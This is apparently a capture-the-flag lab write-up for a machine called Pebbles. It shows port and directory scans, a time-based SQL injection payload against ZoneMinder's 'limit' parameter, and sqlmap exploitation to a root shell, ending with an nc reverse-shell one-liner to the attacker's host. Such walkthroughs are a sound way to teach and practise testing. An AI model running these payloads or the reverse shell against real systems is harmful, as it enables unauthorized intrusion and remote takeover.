 # Pebbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.52 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 11:01 +08
Nmap scan report for 192.168.157.52
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

FTP doesn't allow for anonymous connections.

### Web Enum --> SQL Shell

Port 80 shows a login page:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Default creds don't work, so I ran a `gobuster` scan while moving on. Port 3305 shows a default Apache page:

<figure><img src="../../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

Ran a `gobuster` scan on this too while enumerating port 8080, which had Tomcat.

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Again we have no credentials. The `gobuster` scan revealed there was ZoneMinder on both ports:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.52/ -t 100       
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.52/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/16 11:03:22 Starting gobuster in directory enumeration mode
===============================================================
/zm                   (Status: 301) [Size: 320] [--> http://192.168.157.52/zm/]
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

This version had an SQL Injection exploit:

```
$ searchsploit zoneminder
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                  | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injectio | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                   | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution | unix/remote/24310.rb
----------------------------------------------------------- ---------------------------------
```

Here's the exploit:

```
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

I proxied the request using Burp and passed it to `sqlmap` with the `--os-shell` flag.&#x20;

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.157.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 223
Origin: http://192.168.157.52:3305
Connection: close
Referer: http://192.168.157.52:3305/zm/
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=ka9o8an3bglpu52fkcghrjvhd6

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

This found the `limit` variable to be vulnerable to SQL Injection and I got a webshell as `root`. We can then get a reverse shell easily after choosing the **64-bit database management option**.

```
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.196 3305 >/tmp/f
```

<figure><img src="../../../.gitbook/assets/image (32) (3).png" alt=""><figcaption></figcaption></figure>
